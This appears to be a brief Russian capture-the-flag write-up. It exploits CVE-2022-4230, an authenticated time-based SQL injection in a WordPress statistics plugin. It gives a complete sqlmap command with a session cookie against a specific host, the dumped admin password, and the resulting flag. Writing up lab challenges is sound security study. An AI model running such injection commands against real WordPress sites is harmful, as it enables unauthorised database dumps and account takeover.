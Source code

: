 # Private Data
WPscan находит CVE-2022-4230 - Authenticated SQLi
https://wpscan.com/vulnerability/a0e40cfd-b217-481c-8fc4-027a0a023312
[CVE-2022-4230](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-4230)

Это time-based sql-инъекция. Входим как пользователь, копируем cookie, с помощью sqlmap получаем дамп таблицы users_admin:
`sqlmap -u "http://79.143.25.24:8157/wp-json/wp-statistics/v2/metabox?_wpnonce=793f29b36e&name=words&search_engine=aaa" --cookie="wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_5c9a5ae5ff32de1df9ed609e50a578ec=sec1337%7C1679554865%7CIxMU00E2SmRP92aBRQ9KS8oY7f6ExjBpq2gc1baqbAC%7C18bb4437d379cc313bc7f8a7bea657ffc57b597af2d15044a35c9a25b6562c19" -p search_engine -D wordpress -T users_admin --dump`

admin : Jrkvf!mYcLtTZcjW8d

Входим в wordpress как админ, видим пост с флагом

Флаг - deteact{ce67481ba2558f06be3f4ce71fc67c4f}
